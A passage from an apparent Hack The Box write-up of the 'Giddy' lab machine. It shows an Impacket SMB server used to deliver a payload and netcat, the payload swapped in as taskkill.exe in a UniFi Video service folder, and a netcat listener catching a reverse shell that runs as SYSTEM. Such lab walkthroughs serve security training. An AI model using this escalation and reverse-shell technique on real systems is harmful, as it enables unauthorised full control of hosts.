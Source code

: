 To upload the .exe and netcat to the box, we can spawn an SMB server with Impacket:

```
root@darkisland:~/giddy# python /usr/share/doc/python-impacket/examples/smbserver.py test .
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

![](/assets/images/htb-writeup-giddy/remote5.png)

Then we copy the file to taskkill.exe as explained in the exploit description, then stop-start the service.

![](/assets/images/htb-writeup-giddy/remote6.png)

```
root@darkisland:~/hackthebox/Machines/Giddy# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.104] 49805
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\ProgramData\unifi-video>whoami
whoami
nt authority\system

C:\ProgramData\unifi-video>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
CF559C<redacted>
C:\ProgramData\unifi-video>
```